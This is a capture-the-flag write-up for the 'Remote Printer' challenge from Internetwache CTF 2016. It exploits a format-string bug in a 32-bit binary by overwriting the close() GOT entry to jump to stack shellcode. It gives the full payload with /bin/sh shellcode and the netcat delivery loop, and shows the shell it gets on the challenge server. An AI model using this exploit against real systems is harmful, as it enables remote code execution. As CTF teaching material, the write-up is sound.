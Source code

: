 [](ctf=internetwasche-ctf-2016)
[](type=exploit)
[](tags=format string)
[](tools=libformatstr)
[](techniques=format string)

# Remote Printer (exp-80)

>Description: Printer are very very important for offices. Especially for remote printing. My boss told me to build a tool for that task.

>Attachment: exp80.zip

>Service: 188.166.133.53:12377

Unzipping the [file](../exp80.zip) gives us the following.

```bash
$ file RemotePrinter
RemotePrinter: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3db29aea1dc4af0eb3f7104e529f856256a1d775, stripped
```
If we run it with
```bash
$ nc -l -p 8000 -vv
```
in another terminal.

```bash
$ ./RemotePrinter
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:8000
```

gives us a connection on the listening port.
```bash
$ nc -l -p 8000 -vv
listening on [any] 8000 ...
connect to [127.0.0.1] from Hack-Machine [127.0.0.1] 38908
%p.%p.%p
 sent 9, rcvd 0
```

```bash
$ ./RemotePrinter
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:8000
Thank you, I'm trying to print 127.0.0.1:8000 now!
0xffc8425c.0x2000.(nil)
```
So yeah! Format string exploitation!

A quick decompilation with [Hopper](https://www.hopperapp.com/) gives us
```c
function sub_80486d5 {
    eax = *stdout;
    setbuf(eax, 0x0);
    puts("This is a remote printer!");
    printf("Enter IPv4 address:");
    __isoc99_scanf(0x804896e, var_18);
    printf("Enter port:");
    __isoc99_scanf(0x804897f, 0x0);
    printf("Thank you, I'm trying to print %s:%d now!\n", var_18, 0x0);
    esp = (((((((esp - 0x8 - 0x4 - 0x4) + 0x10 - 0xc - 0x4) + 0x10 - 0xc - 0x4) + 0x10 - 0x8 - 0x4 - 0x4) + 0x10 - 0xc - 0x4) + 0x10 - 0x8 - 0x4 - 0x4) + 0x10 - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
    sub_8048786(var_18, 0x0);
    return 0x0;
}
function sub_8048786 {
    esp = (esp - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
    var_C = socket(0x2, 0x1, 0x0);
    if (var_C == 0xffffffff) {
            puts("No socket :(");
    }
    else {
            inet_addr(arg0);
            htons();
            esp = (((esp - 0xc - 0x4) + 0x10 - 0xc - 0x4) + 0x10 - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
            if (connect(var_C, 0x2, 0x10) < 0x0) {
                    perror("No communication :(\n");
            }
            else {
                    esp = (esp - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
                    if (recv(var_C, var_201C, 0x2000, 0x0) < 0x0) {
                            puts("No data :(");
                    }
                    else {
                            printf(var_201C);
                            close(var_C);
                    }
            }
    }
    return;
}
```
Lets checksec.

```bash
$ gdb -q ./RemotePrinter
Reading symbols from ./RemotePrinter...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```
So NX is disabled. This means we can execute shellcode on the stack.

So a brief strategy : By overwriting a GOT entry for a function the program will use after
the printf call we can seize control and
can jump to shellcode address.

So here we see printf() is followed by close(). We'll patch the GOT entry for close() to execute our shellcode.

```bash
$ readelf -r ./RemotePrinter

Relocation section '.rel.dyn' at offset 0x408 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049c34  00000806 R_386_GLOB_DAT    00000000   __gmon_start__
08049c8c  00001105 R_386_COPY        08049c8c   stdout

Relocation section '.rel.plt' at offset 0x418 contains 16 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049c44  00000107 R_386_JUMP_SLOT   00000000   setbuf
08049c48  00000207 R_386_JUMP_SLOT   00000000   printf
08049c4c  00000307 R_386_JUMP_SLOT   00000000   fgets
08049c50  00000407 R_386_JUMP_SLOT   00000000   fclose
08049c54  00000507 R_386_JUMP_SLOT   00000000   htons
08049c58  00000607 R_386_JUMP_SLOT   00000000   perror
08049c5c  00000707 R_386_JUMP_SLOT   00000000   puts
08049c60  00000807 R_386_JUMP_SLOT   00000000   __gmon_start__
08049c64  00000907 R_386_JUMP_SLOT   00000000   __libc_start_main
08049c68  00000a07 R_386_JUMP_SLOT   00000000   fopen
08049c6c  00000b07 R_386_JUMP_SLOT   00000000   __isoc99_scanf
08049c70  00000c07 R_386_JUMP_SLOT   00000000   socket
08049c74  00000d07 R_386_JUMP_SLOT   00000000   inet_addr
08049c78  00000e07 R_386_JUMP_SLOT   00000000   connect
08049c7c  00000f07 R_386_JUMP_SLOT   00000000   recv
08049c80  00001007 R_386_JUMP_SLOT   00000000   close
```
First we need to locate our input on the stack. A little checking reveals that the first thing on the stack at printf() is the address of our input. Also we can see that ASLR is not enabled on the service as the address remains constant for 5-6 tries (0xffffbcec).

The exploit is pretty straight-forward :

```python
>>> from pwn import *
>>> shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>>> from libformatstr import *
>>> p=FormatStr()
>>> p[0x08049c80]=0xffffbcec+0x30
>>> pay=p.payload(7,0)
>>> print repr(pay+'\x90'*50+shell)
'%48412c%14$hn%17123c%15$hnAA\x80\x9c\x04\x08\x82\x9c\x04\x08\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'
>>>
```

Now the exploit in action :
```bash
$for i in {1..100}; do python -c "print '%48412c%14\$hn%17123c%15\$hnAA\x80\x9c\x04\x08\x82\x9c\x04\x08\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\xb0\x0b\xcd\x80'"| nc -vv -l -p 443 ; done
Listening on [0.0.0.0] (family 0, port 443)
Connection from [178.62.254.108] port 443 [tcp/https] accepted (family 2, sport 34495)
```

we get a shell
```
id
uid=1010(exp80) gid=1010(exp80) groups=1010(exp80)
ls
RemotePrinter
flag.txt
cat flag.txt
IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
uname -a
Linux serv1.2016.ctf.internetwache.org 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt20-1+deb8u3 (2016-01-17) x86_64 GNU/Linux
```

flag
>IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
